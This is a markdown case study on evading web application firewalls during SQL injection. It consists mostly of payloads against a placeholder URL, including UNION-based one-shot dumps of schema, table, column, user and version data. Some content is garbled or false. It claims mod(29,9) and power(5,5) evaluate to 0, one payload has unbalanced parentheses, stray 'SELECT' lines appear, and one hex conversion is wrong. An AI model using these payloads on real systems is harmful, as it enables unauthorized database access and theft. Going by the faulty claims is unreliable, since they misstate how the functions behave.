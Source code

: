 ```yaml
---
title: Case study on SQL Injection WAF bypassing via SQL Functions
updated: 2021-09-05 13:55
---
```


## The traditional way using And 0

The ordinary usage of And 0 is easily detected by WAF and instantly triggers it, so it becomes impossible to use that query. The examples below describes the traditional way of using an false value in SQL Injection.

```
And 1=0
And false
And 0
And 1
And 50=60
Any number that are not the same will equal to (0, false, null)
```

## The alternative way of using And 0

The following methods are newly discovered queries which are supported by it’s respective SQL, as a new way of declaring false, null or 0 value(s).

1) Any **Mathematical/Arithmetic** or **Logical Problem** that equal to 0

```
And 1*0
And 1-1
And 0/1
```
For example:
http://website.com/index.php?id=1’ and 1*0 order by 10--

2) Using **MOD()**

```
SELECT mod(10, 2);
```

The used mod() Function will output to 0

For example:
http://website.com/index.php?id=1 and mod(29,9) Order by 10--

3) Using **POINT()**

```
SELECT point(29, 9);
```
For example:
http://website.com/index.php?id=1 and point(29,9) Order by 10--

4) Using **POWER()**

```
SELECT power(5,5);
```
For example:
http://website.com/index.php?id=1 and power(5,5) Order by 10--

## Illegal parameter data types

Error notification Illegal parameter data types INT and row for operation '=', is related to the data type of column included in the condition. The problem can occur because of many reasons.

1) For operation **MOD**
```
% = Modulo
```
For example:
http://website.com/index.php?id=1 % point(29,9) Order by 10--

2) For operation **&**
```
& = Bitwise And
&& = Logical And
```
For example:
http://website.com/index.php?id=1 && point(29,9) Order by 10--

3) For operation **OR**
```
| = Bitwise OR
|| = Logical OR, sometimes use for Concatanation
```
For example:
http://website.com/index.php?id=1 || point(29,9) Order by 10--

##The traditional way of using Null

The ordinary usage of Null is easily detected by WAF and instantly triggers it, so it becomes impossible to use that query. The examples below describes the traditional way of using an false value in SQL Injection.
```
Union Select null, null, null, null
```

## The alternative way of using Null

1) Using **0**
```
UNION SELECT 0,0,0,0
```
For example:
http://website.com/index.php?id=1 div **0** Union Select **0**,**0**,**0**,**0** (SELECT+GROUP_CONCAT(schema_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEMA.SCHEMATA),**0**,**0**--+"

2) Using **false**
```
UNION SELECT false,false,false,false
```
For example:
http://website.com/index.php?id=1 div **false** Union Select **false**,**false**,**false**,**false**,SELECT+GROUP_CONCAT(schema_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEMA.SCHEMATA),**false**--+

3) Using char()
```
UNION SELECT char(null),char(null),char(null),char(null)
UNION SELECT char(false),char(false,char(false),char(false)
UNION SELECT char(0),char(0),char(0),char(0)
UNION SELECT char(0x4e554c4c),char(0x4e554c4c),char(0x4e554c4c),char(0x4e554c4c)
```
For example:
http://website.com/index.php?id=1 div **char(false)** Union Select "**char(false)** div **char(false)** Union Select **char(false)**,**char(false)**,**char(false)**,**char(false)**,concat(0x222f3e,0x3c62723e,0x3c62723e,'<br>','Database :: ',database(),0x3c62723e,'User ::',user(),0x3c62723e,'Version ::',version(),0x3c62723e,user(),make_set(6,@:=0x0a, (select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@),0x3c62723e),**char(false)**--+",**char(false)**,**char(false)**,**char(false)**,**char(false)**,**char(false)**--+

4) Using **Arithmetic** or **Logical Operator**
```
UNION SELECT (0*1337-0),(0*1337-0),(0*1337-0),(0*1337-0)
UNION SELECT 34=35,34=35,34=35,34=35
```
For example:
```
http://website.com/index.php?id=1 div (0*1337-0) Union Select "(0*1337-0) div (0*1337-0) Union Select (0*1337-0),(0*1337-0),(0*1337-0),(0*1337-0),concat(0x222f3e,0x3c62723e,0x3c62723e,'<br>','Database ::',database(),0x3c62723e,'User :: ',user(),0x3c62723e,'Version ::',version(),0x3c62723e,user(),make_set(6,@:=0x0a, (select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@),0x3c62723e),(0*1337-0)--+",(0*1337-0),(0*1337-0), (0*1337-0),(0*1337-0),(0*1337-0)--+
```

## Bypassing Static Web Application Firewall with 0xHEX values

Since 0xHEX values are accepted and widely used in SQL Queries and Injection payloads, it is a great way to bypass static-based Firewalls. Using this technique, it is possible to avoid using words such as **NULL**, **false**, or ‘ (single quotes). Below are existing payload, but their respective values are converted to 0xHEX format.

```
SELECT
SELECT
SELECT
SELECT
CHAR(NULL); → SELECT CHAR(0x4e554c4c);
CHAR(0) → SELECT CHAR(0x30);
MOD(29, 9); → SELECT MOD(0x3239, 0x34);
POINT(29, 9); → SELECT POINT(0x3239, 0x39);
```
